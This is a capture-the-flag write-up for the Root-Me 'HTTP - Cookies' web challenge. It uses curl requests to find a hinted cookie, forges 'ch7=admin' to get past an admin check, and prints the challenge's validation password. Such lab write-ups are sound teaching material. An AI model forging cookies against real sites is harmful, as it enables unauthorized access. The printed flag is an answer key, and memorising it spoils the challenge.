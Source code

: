 ```yaml
---
title: HTTP - Cookies
author: thanguyen165
date: 2023-01-02 07:00:00 +0700
categories: [Practice, rootme]
tags: [Web Exploitation]
---
```


* Points: 20
* Link: [https://www.root-me.org/en/Challenges/Web-Server/HTTP-Cookies](https://www.root-me.org/en/Challenges/Web-Server/HTTP-Cookies)

## Statement

> Bob created a PHP script to gather user emails
>
> PS: Bob really love cookies!
>
> [http://challenge01.root-me.org/web-serveur/ch7/](http://challenge01.root-me.org/web-serveur/ch7/)

## Solution

```sh
curl -i http://challenge01.root-me.org/web-serveur/ch7/
```

```http
HTTP/1.1 200 OK
Server: nginx
Date: Wed, 12 Jul 2023 03:09:55 GMT
Content-Type: text/html; charset=UTF-8
Transfer-Encoding: chunked
Connection: keep-alive
Vary: Accept-Encoding
```

```html
<br/>
<br/>
<fieldset>

<form method="POST" action="" name="a">
Email<br/>
<input type="text" name="mail" size="20" class="post2" value=""><br/><br/>
<input type="submit" name="jsep4b" size="20" class="post2" value="send"><br/><br/>
</form><!--SetCookie("ch7","visiteur");--><a href="?c=visiteur">Saved email adresses</a><br/></fieldset>
```

Check all the link, as usual
```sh
curl -i http://challenge01.root-me.org/web-serveur/ch7/?c=visiteur
```

```http
HTTP/1.1 200 OK
Server: nginx
Date: Wed, 12 Jul 2023 03:13:43 GMT
Content-Type: text/html; charset=UTF-8
Transfer-Encoding: chunked
Connection: keep-alive
Vary: Accept-Encoding
Set-Cookie: ch7=visiteur
```

```html
<br/>
<br/>
<fieldset>

<form method="POST" action="" name="a">
Email<br/>
<input type="text" name="mail" size="20" class="post2" value=""><br/><br/>
<input type="submit" name="jsep4b" size="20" class="post2" value="send"><br/><br/>
</form><!--SetCookie("ch7","visiteur");--><a href="?c=visiteur">Saved email adresses</a><br/>You need to be admin</fieldset>
```

"You need to be admin"...
```sh
curl -i -H "Cookie: ch7=admin" http://challenge01.root-me.org/web-serveur/ch7/?c=visiteur
```
```html
<div>Validation password : ml-SYMPA
</div></fieldset>
```

The flag is
```
ml-SYMPA
```